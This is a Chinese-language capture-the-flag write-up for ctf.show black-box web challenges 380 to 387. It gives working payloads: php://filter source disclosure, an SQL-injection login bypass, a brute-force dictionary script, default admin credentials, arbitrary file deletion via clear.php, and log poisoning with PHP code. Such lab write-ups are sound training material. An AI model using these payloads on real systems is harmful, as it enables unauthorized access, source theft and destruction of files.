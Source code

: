 ## web380

查看网页源代码

![1621326870805](黑盒测试.assets/1621326870805.png)

能看到一个page_3.php的注释，看了一圈没看到什么东西，索性直接访问page.php

![1621326975701](黑盒测试.assets/1621326975701.png)

那就直接访问

```
page.php?id=1
```

![1621327092048](黑盒测试.assets/1621327092048.png)

waring弹出，是使用file_get_contents读取文件，我们将1改为index发现直接返回了主页,那我们可以尝试读取有没有flag文件

```
page.php?id=flag
```

![1621327209618](黑盒测试.assets/1621327209618.png)



```
file_get_contents

(PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)

file_get_contents — 将整个文件读入一个字符串

```

因为使用了file_get_contents，所以我们可以使用php伪协议来读取代码

```
page.php?id=php://filter/convert.base64-encode/resource=index
```

![1621327525371](黑盒测试.assets/1621327525371.png)

同样也可以读取flag文件

```
page.php?id=php://filter/convert.base64-encode/resource=flag
```

## web381

​	查看源代码，按照上一题的方法发现做不出，但是发现了一个alsckdfy经过测试是后台的地址。

![1621344438813](黑盒测试.assets/1621344438813.png)

```
/alsckdfy/(这里注意路由的写法)
```

题目的本意也是让我们找到后台的地址(这才是黑盒测试的本质)

![1621344556409](黑盒测试.assets/1621344556409.png)

## web382

后台弱口令，登录获得flag

```
admin 'or '1'='1
密码随意
```

## web383

解题思路与382一样

## web384

![1621344878096](黑盒测试.assets/1621344878096.png)

题目提示前三位是小写字母，后三位是数字，所以题目的本意就是让我们爆破密码呗

后序一定补！

```python
length = 5
charLength = 2
char = 'abcdefghijklmnopqrstuvwxyz'

def formatNum(n):
    global length
    return '0'*(length-charLength-len(str(abs(n))))+str(abs(n))[:length-charLength]

string = ''
for n in char:
    for c in char:
        for i in range(pow(10,length-charLength)):
            string += n+c+formatNum(i)+'\n'

with open('dict.txt','w') as f:
    f.write(string)

```

burp跑一下字典得到密码为xy123

## web385

访问

```
http://e9bdf733-b2a1-4b5f-bfe0-df3cf7798266.challenge.ctf.show:8080/install/
```

![1621758916507](黑盒测试.assets/1621758916507.png)

根据提示

```
http://e9bdf733-b2a1-4b5f-bfe0-df3cf7798266.challenge.ctf.show:8080/install/?install
```

![1621758945702](黑盒测试.assets/1621758945702.png)

在访问后台登录页面,用原密码 admin admin888

登录获得flag

## web386

按照上一题，接着访问install

![1621759156810](黑盒测试.assets/1621759156810.png)

提示lock.dat存在无法重复安装，所以我们要尝试将lock.dat删除掉

经过扫描发现了存在一个clear.php,那肯定是用这个clear.php来删除文件，盲猜一波file参数

```
http://ed902854-7a20-47d6-b1bd-589fee68e5df.challenge.ctf.show:8080/clear.php?file=/var/www/html/install/lock.dat
```

![1621759732372](黑盒测试.assets/1621759732372.png)

接着就到了上一题的步骤

登录即可

## web387

开局给了一个提示

![1621759888539](黑盒测试.assets/1621759888539.png)

经过尝试发现不可以。

访问一下robots.txt,发现/debug

![1621761187107](黑盒测试.assets/1621761187107.png)

访问一下

![1621762937418](黑盒测试.assets/1621762937418.png)

提示file not exist,那直接file一个文件

![1621763000402](黑盒测试.assets/1621763000402.png)

那肯定也可以包含日志文件，尝试传入一句话失败了，原因是没有接受Post的值，也就是说他可以执行传入的东西，只是不接受，那直接传入php的代码将lock.dat删掉

```php
<?php unlink('/var/www/html/install/lock.dat')?>
```



![1621762722074](黑盒测试.assets/1621762722074.png)

包含以下日志文件让他执行

![1621762731781](黑盒测试.assets/1621762731781.png)

然后访问install发现执行成功

![1621762746787](黑盒测试.assets/1621762746787.png)

登陆获得flag











